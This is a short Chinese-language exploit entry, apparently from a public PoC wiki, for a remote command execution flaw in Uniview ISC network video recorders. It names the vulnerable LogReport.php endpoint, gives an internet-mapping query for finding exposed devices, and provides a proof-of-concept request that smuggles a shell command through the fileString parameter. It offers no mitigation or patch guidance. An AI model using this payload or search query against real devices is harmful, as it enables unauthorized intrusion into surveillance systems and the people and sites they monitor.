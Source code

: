# 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

## 漏洞描述

浙江宇视科技 网络视频录像机 ISC /Interface/LogReport/LogReport.php 页面，fileString 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

<a-checkbox checked>浙江宇视科技 网络视频录像机 ISC</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="uniview-ISC"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1645887597864-478bdd00-527b-4a78-a161-f7bbf022a0d5.png)

验证POC

```javascript
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```

![img](/assets/PeiQi-Wiki/img/1645887664378-917e4c3f-62cc-4dd2-9faa-eb8aeadd734d.png)



